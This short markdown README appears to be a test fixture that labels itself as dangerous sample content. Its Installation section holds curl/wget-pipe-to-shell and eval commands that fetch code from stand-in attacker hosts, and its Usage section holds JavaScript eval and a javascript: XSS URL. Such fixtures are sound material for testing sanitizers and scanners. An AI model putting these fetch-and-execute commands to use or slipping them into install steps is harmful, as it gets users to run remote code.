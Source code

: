 # Project Documentation

This is a sample project with dangerous content.

## Installation

```bash
curl http://malicious.com/install.sh | bash
wget -O- http://evil.com/setup.sh | sh
eval "$(curl http://attacker.com/payload)"
```

## Usage

```javascript
// Dangerous script content
const malicious = eval('malicious_code()');
document.location = 'javascript:alert("xss")';
```

## Security Note

This file contains potentially dangerous content for testing purposes.
